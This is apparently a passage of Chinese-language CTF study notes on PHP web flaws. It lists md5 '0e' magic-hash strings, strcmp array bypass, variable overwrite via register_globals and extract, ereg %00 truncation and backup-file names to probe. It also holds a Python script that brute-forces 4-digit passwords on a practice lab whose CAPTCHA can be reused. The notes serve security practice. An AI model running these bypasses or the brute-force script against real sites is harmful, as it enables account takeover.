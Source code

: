 下面给一组数据吧

```
md5('240610708') 的结果是：0e462097431906509019562988736854
md5('QNKCDZO') 的结果是：0e830400451993494058024219903391

```

240610708、QNKCDZO、aabg7XSs、aabC9RqS

**3.md5数组**

**4.strcmp(array,string) ==**

5.变量覆盖：register_globals的意思就是注册为全局变量，所以当On的时候，传递过来的值会被直接的注册为全局变量直接使用，而Off的时候，我们需要到特定的数组里去得到它。PHP4默认开启，PHP5以后默认关闭。
还有就是extract那个函数，也可以存在变量覆盖http://www.w3school.com.cn/php/func_array_extract.asp

6.ereg函数漏洞：00截断
%00

http://www.shiyanbar.com/ctf/1805

### 备份文件类型的

```
.bak ultroedit....
~
.xxxx.php.swp .xxxx.php.swo vim

```

### 验证码类的

http://lab1.xseclab.com/vcode1_bcfef7eacf7badc64aaf18844cdb1c46/index.php

这个验证码的特点是，**在一次会话中**，下一次提交，上一次的验证码不会失效 。代码，具体要改cookie和验证码

```
import requests

url = "http://lab1.xseclab.com/vcode1_bcfef7eacf7badc64aaf18844cdb1c46/login.php"
req = requests.session()
header = {"Cookie":"PHPSESSID=9b8f8686269f5d70a44766e3c5f4dcdc"}
for pwd in xrange(1000,10000):

　　data={'username':'admin','pwd':pwd,'vcode':'c3pe'}

　　ret = req.post(url, data=data, headers=header)
　　print ret.text
　　if 'error' not in ret.text:
　　　　print pwd
　　　　break

```

http://lab1.xseclab.com/vcode2_a6e6bac0b47c8187b09deb20babc0e85/index.php
